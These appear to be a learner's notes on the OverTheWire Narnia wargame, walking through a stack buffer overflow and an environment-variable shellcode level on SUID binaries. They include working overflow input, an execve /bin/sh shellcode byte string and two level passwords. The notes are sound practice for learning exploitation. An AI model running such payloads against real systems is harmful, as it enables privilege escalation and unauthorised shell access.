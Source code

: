 # Narnia
### basic game info
```
levels: narnia0 narnia1...
narnia.labs.overthewire.org on port 2226

passwords at:
/etc/narnia_pass/
```
### level 1
#### attempts
1. looked for suspicious ports
2. cat the narnia1 password.
3. `You'll get the source code of each level to make it easier for you to spot the vuln and abuse it.`
   meaning there is a source code inside this machine lets find it... <br>
when running `find . | grep narnia`, you I found narnia0.c and its executable! <br>

the program is a simple buffer overflow the given buffer is 20 bytes and 
after that there is the target value. if you sucessfully overflow you get a shell.<br>
`setreuid(geteuid() geteuid())`, sets a real and effective user IDs of the calling process.<br>
The calling process will be the next level, because you can a SUID flag on the executable.

#### buffer overflow attempts
given a buff[20] and a value before it. the stack would look like this.<br>
| var      | high memory addr<br>
| buff[20] | low memory addr<br>

The program input 24 chars of string into buff, which is already a buffer overflow.

1. tried to enter `20*a+0xdeadbeef` <br> 
    val = edx0<br>
    buff = aaaaaaaaaaaaaaaaaaaa0xde<br>
    those there are the reverse of each other<br>
    target val = 0xdeadbeef = 3735928559<br>

    the input deadbeef should be reversed and without `0x`<br>
    this method worked partly, var = hex(beef) we need to eneter beef as hex reversed<br>
    `0xf0xe0xe0xb0xd0xa0xe0xd`
    
## solution
#### steps
- from the first input `20*a+0xdeadbeef`, we can infer three things:<br>
  1. the input only scan 4 more bytes
  2. the output is reversed meaning the order is little indian
  3. 0x would not help use get values as hex values
- now deadbeef would be in little indian every byte at the end goes to the start
- efbeadde in hex. in the bash shell hex can be represent by \x.
- `aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde`
- lastly in order to stay inside the shell we need to run a command inside the new shell
- `(echo -e "aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde"; cat;) | ./narnia0` this is called command group.



## Level 2
```C
#include <stdio.h>

int main()
{
    int (*ret)();

    if(getenv("EGG")==NULL)
    {
        printf("Give me something to execute at the env-variable EGG\n");
        exit(1);
    }

    printf("Trying to execute EGG!\n");
    ret = getenv("EGG");
    ret();

    return 0;
}
```
### anlays
- getenv() - gets the value of the given global variable<br>
  they use getenv() instead of secure_getenv(), to enable not only the creator of this exe to enter environment variable.
- to set environment variables in linux, `EGG="test"`, `export` keywoard would make the variable scope inside all derive process.
- we can only pass a function that returns integer and doesn't get parameters and is built in the stdio.h library.<br>
  tested system and printf functions but the function throws segmentation fault.
- segmentation fault -> you access  memory that "does not belong to you".
- 
### Attemps
- add a `export EGG="system(\"bin/sh\")"`, didn't work. The idea is to pass that will run the command `cat /etc/narnia_pass/narnia2`
- use bash functions, `export EGG="expliot(){cat /etc/narnia_pass/narnia2}"`, no luck...
- use c functions, the problem is that we need to create a function declaration a line before.
  ```C
  int main() 
  {
    int (*ret)();
    
    int test() { printf("s"); } 

    ret = test;
    ret();
    return 0;
  }
  ```
### Solusion 
to execute the a shell he passed a python -c with print that prints the bytes of execve(/bin/sh).<br>
```C
export EGG=`python -c 'print "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80"'`
export EGG=$(python -c 'print "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80"')
```
He used https://www.exploit-db.com/exploits/44594 for the byte array.<br>
The new idea for solving this level is `shellcoding`, for further info see `pwn.md`.
### Passwords
level
- 0 -> `efeidiedae` : no time + help
- 0 -> `nairiepecu` : no time + help



## Terms
- real uid: the user ID
- effective uid: id can give the current user root privilage, with files.
- saved uid: id to lower your privilage inside a process.

